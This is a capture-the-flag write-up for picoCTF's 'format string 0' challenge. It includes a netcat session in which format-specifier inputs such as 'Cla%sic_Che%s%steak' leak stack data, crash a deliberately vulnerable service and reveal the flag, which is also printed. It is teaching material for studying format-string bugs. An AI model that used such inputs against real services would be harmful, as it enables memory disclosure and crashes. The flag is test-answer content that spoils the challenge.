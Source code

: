 # Binary Exploitation

## format string 0

**Approach: Brute Force**

Initially, I tried to brute force the challenge and was successful. I found the flag quickly and easily and then analyzed the given code afterwards.

The brute-force method allowed me to navigate through the challenge effectively. By testing the inputs given in the program, I successfully retrieved the flag. 
 
For `Patrick`, I started with the burger names from the menu. I noticed that the system accepted the input `Gr%114d_Cheese`, which triggered a format string vulnerability.

For `Sponge Bob`, the second customer, I continued with the same method, testing all the provided burger names, the input `Cla%sic_Che%s%steak` was accepted, which also exhibited format string behavior.
Thus, I received the flag.

**Knowledge Gained:**

Format Strings- Learnt how format strings can be used to manipulate the output. The %s and other format specifiers can be exploited to read from the stack.

```
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Breakf@st_Burger
Breakf@st_BurgerPatrick is still hungry!
Try to serve him something of larger size!
^Z
[1]+  Stopped                 nc mimas.picoctf.net 52258
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Pe%to_Portobello
Pe20021560_Portobello
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: $outhwest_Burger
$outhwest_Burger
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}

```

**Flag:**

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}

**Resources Used:**

https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/
